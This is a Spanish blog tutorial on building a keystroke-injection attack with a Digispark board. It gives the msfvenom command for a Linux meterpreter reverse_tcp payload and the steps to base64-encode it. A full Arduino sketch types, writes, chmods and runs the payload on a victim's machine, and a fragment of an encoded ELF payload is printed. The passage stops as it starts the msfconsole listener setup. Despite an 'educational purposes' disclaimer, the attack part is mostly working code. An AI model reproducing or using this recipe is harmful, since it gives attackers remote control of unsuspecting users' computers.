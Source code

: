 ```yaml
---
layout: post
title: Basic Exploit with Digispark

---
```

# Introducción
En el dia de hoy explicaremos como hacer una técnica de explotación básica ayudandonos de Digispark y metasploit framework.
Este post lo he creado en Español para difundir mi idioma y dar a conocer el mundo de la seguridad informática en Español.
Para comenzar necesitaremos lo siguiente:  
  - Digispark: [amazon](https://www.amazon.es/AZDelivery-Digispark-Kickstarter-Desarrollo-compatible/dp/B076KS2QDS/ref=asc_df_B076KS2QDS/?tag=googshopes-21&linkCode=df0&hvadid=301006161094&hvpos=1o1&hvnetw=g&hvrand=3258160503763513062&hvpone=&hvptwo=&hvqmt=&hvdev=c&hvdvcmdl=&hvlocint=&hvlocphy=9047059&hvtargid=pla-602427609241&psc=1)
  - Disposición Linux, en mi caso uso ubuntu 18.04
  - Metasploit Framework
  
Cabe mencionar que necesitamos comprar el Digispark, yo lo compré en Amazon, 3 por casi 10 euros y sin duda merece la pena, se puede hacer
tales cantidades de proyectos..

Todo lo que explico es con fines educativos, no me hago responsable del mal uso que le hagais a este post, simplemente me gusta enseñar las habilidades de hacking ético que conozco con el fin de que aprendais como podeis ser atacados y saber defenderos.

# Construyendo el exploit
Para crear el exploit debemos usar la herramienta msfvenom y excribir la siguiente linea de código: 

`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=(IP A USAR) LPORT=(PUERTO A USAR) -f elf > exploit`

Como podemos observar lo que crearemos es un exploit el cual, al ejecutarse en el equipo victima (con distribución linux) nos abrirá una conexión tcp
la cual nos permitirá infectar el equipo y con meterpreter poder acceder a todos sus archivos. 
En la IP cada uno pondra su ip, se puede mirar abriendo la terminal y escribiendo el siguiente comando `ifconfig`, dependiendo si teneis vuestro computador enchufado por cable o lo teneis inalámbrico estará en una interfaz o otra. Esa IP es privada, es decir, solo os servirá para vuestra propia red, no obstante se puede crear este exploit y sacarlo fuera de la red local(LAN), pero eso lo dejaré para otro post. Dicho esto yo usaré mi IP privada y un puerto efímero, el 5000 por ejemplo.

![Foto1](/images/foto1.png)
 
Bien, para terminar de construir este exploit hay que tranformarlo a base64 para poder ejecutarlo directamente en la computadora víctima, asique escribiremos lo siguiente: `base64 exploit > exploit.b64`. Podemos comprobar que ha sido construido satisfactoriamente con el comando `cat exploit.b64`.

![Foto2](/images/foto2.png)

# Creando el script para Digispark
Bien, ahora pasemos a lo interesante de este post, crearemos un script en Arduino que nos permita crear un archivo b64 en la computadora victima, darle los permisos de ejecución con chmod y ejecutarlo para poder explotar el sistema. Para ello como ya he dicho nos apoyaremos en Arduino, para ponerlo en funcionamiento debereis descargarlo en la pagina oficial [arduino](https://www.arduino.cc/en/Main/Software) . Posteriormente en el arduino nos iremos a `Herramientas->Placa->Gestor de Tarjetas` y instalaremos `Digistump AVR boards`, por último en placa ya seleccionaremos `Digispark(Default - 16.5mhz)` y Fiuh listo ya podemos ponernos manos a la obra y empezar a crear nuestros primeros script para el Digispark. Como todos sabeis Arduino consta de dos funciones setup() en la cual inicializaremos los pines y cualquier otra cosa, se puede dejar en blanco y la función loop() que se repetira constantemente. Empezaremos con las lineas `#include "DigiKeyboard.h"` para poder trabajar con DigiKeyboard, que nos permitirá simular un teclado con el Digispark.
Yo os facilitaré el código que he creado para ejecutar el script en el ordenador víctima.
{% highlight c++ %}
#include "DigiKeyboard.h"
#define KEY_DELETE 0x4C
void setup() {
  
// Encendemos el LED para saber que se esta ejecutando
pinMode(1, OUTPUT);
delay(200);
digitalWrite(1, HIGH);
DigiKeyboard.sendKeyStroke(KEY_DELETE);
delay(200);

//Abrimos el buscador y escribimos terminal
DigiKeyboard.sendKeyStroke(0,MOD_GUI_LEFT); 
DigiKeyboard.delay(1000);
DigiKeyboard.print("terminal");
DigiKeyboard.delay(500);

// Creamos el payload
DigiKeyboard.print("echo");
DigiKeyboard.sendKeyStroke(KEY_SPACE);
DigiKeyboard.print("TU PAYLOAD");
DigiKeyboard.sendKeyStroke(KEY_1,MOD_ALT_RIGHT);
DigiKeyboard.print(" base64 //decode ");
DigiKeyboard.sendKeyStroke(100,2);
DigiKeyboard.print(" ");
DigiKeyboard.sendKeyStroke(KEY_7,MOD_SHIFT_RIGHT);
DigiKeyboard.print("tmp");
DigiKeyboard.sendKeyStroke(KEY_7,MOD_SHIFT_RIGHT);
DigiKeyboard.print("exploit");
DigiKeyboard.sendKeyStroke(KEY_ENTER);
DigiKeyboard.delay(500);

// Cambiamos los permisos para poder ejecutarlo y lo ejecutamos
DigiKeyboard.print("chmod 755");
DigiKeyboard.sendKeyStroke(KEY_SPACE);
DigiKeyboard.sendKeyStroke(KEY_7,MOD_SHIFT_RIGHT);
DigiKeyboard.print("tmp");
DigiKeyboard.sendKeyStroke(KEY_7,MOD_SHIFT_RIGHT);
DigiKeyboard.print("exploit");
DigiKeyboard.sendKeyStroke(KEY_ENTER);
DigiKeyboard.delay(200);
// Ejecutamos
DigiKeyboard.sendKeyStroke(KEY_7,MOD_SHIFT_RIGHT);
DigiKeyboard.print("tmp");
DigiKeyboard.sendKeyStroke(KEY_7,MOD_SHIFT_RIGHT);
DigiKeyboard.print("exploit");
DigiKeyboard.sendKeyStroke(KEY_ENTER);

DigiKeyboard.delay(100);
// Paramos el led
digitalWrite(1, LOW);

}

void loop() {
// Para saber que el script se ha ejecutado con exito, mantendremos el led encendiendose y apagandose

digitalWrite(1, HIGH);
delay(200);

digitalWrite(1, LOW);
delay(300);

}
{% endhighlight %}
Bien, el código es un poco enrevesado, pero después de darle unas vueltas os dareis cuenta de que lo único que hace es: Encender el led rojo fijo, abrir la terminal, escribir el payload generado y guardarlo en un archivo, cambiarle los permisos y ejecutarlo, para terminar pone el led intermitente. Es simplemente eso.
Puedo comentaros algunos problemillas que he tenido, mi payload tenia una barra invertida entre medias entonces he tenido que dividir el print, y la barra la he puesto con la combinación de teclas que corresponde, puesto que si la escribía en el print daba errores con el teclado y no se escribia una / si no un - . Por eso en mi caso me quedaría asi ese trozo:
{% highlight c++ %}
DigiKeyboard.print("f0VMRgEBAQAAAAAAAAAAAAIAAwABAAAAVIAECDQAAAAAAAAAAAAAADQAIAABAAAAAAAAAAEAAAAAAAAAAIAECACABAjPAAAASgEAAAcAAAAAEAAAagpeMdv341NDU2oCsGaJ4c2Al1towKhkFGgCABOIieFqZlhQUVeJ4UPNgIXAeRlOdD1oogAAAFhqAGoFieMxyc2AhcB5vesnsge5ABAAAInjwesMweMMsH3NgIXAeBBbieGZtgywA82AhcB4Av");
DigiKeyboard.sendKeyStroke(KEY_7,MOD_SHIFT_RIGHT);
DigiKeyboard.print("huAEAAAC7AQAAAM2A ");
{% endhighlight %}
Ahi apreciais como separo el payload, escribo la barra `/` y ya continuo. Os menciono esto por si, a la hora de escribir vuestro payload, como evidentemente el valor cambia, os adelanto este problema.
Para terminar esta parte, verificaremos nuestro programa, le daremos a subir y introduciremos el Digispark. Una vez subido podemos desenchufarlo y ya preparar la siguiente parte que es configurar metasploit. ¡¡Ya queda poco!!

# Configurando msfconsole
Llegados hasta aqui, ahora solo nos queda la parte divertida, configuraremos msfconsole para que se ponga a la escucha de conexiones TCP y explotar el sistema cuando se ejecute el payload en el equipo víctima. bien empezemos:
  - Ejecutamos en una terminal msfconsole -q (-q es para que no nos aparezca el banner)
  -
